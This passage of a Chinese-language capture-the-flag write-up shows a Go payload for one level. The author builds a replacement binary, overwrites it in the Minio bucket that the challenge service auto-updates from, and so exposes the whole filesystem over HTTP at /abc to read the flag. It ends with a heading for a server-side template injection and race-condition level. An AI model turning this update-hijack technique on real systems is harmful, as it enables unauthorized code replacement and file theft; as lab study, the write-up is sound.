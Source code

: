 payload:

```
package main

import (
	"level25/fetch"
	"level25/conf"
	"github.com/gin-gonic/gin"
	"github.com/jpillora/overseer"
)

func main() {
	fetcher := &fetch.MinioFetcher{
		Bucket:    conf.MinioBucket,
		Key:       conf.MinioKey,
		Endpoint:  conf.MinioEndpoint,
		AccessKey: conf.MinioAccessKey,
		SecretKey: conf.MinioSecretKey,
	}
	overseer.Run(overseer.Config{
		Program: program,
		Fetcher: fetcher,
	})

}

func program(state overseer.State) {
	g := gin.Default()
	g.StaticFS("/abc", gin.Dir("/", true))
	g.Run(":8080")
}

```

这里我将/路由改成了/abc，因为不知道为啥我用/路由不行

将源码编译后覆写到储存桶上

![image-20250206163859652](../assets/image-20250206163859652.png)

访问/abc

![image-20250206164000985](../assets/image-20250206164000985.png)

拿到flag

![image-20250206164029974](../assets/image-20250206164029974.png)



### Level 38475 角落

ssti/条件竞争
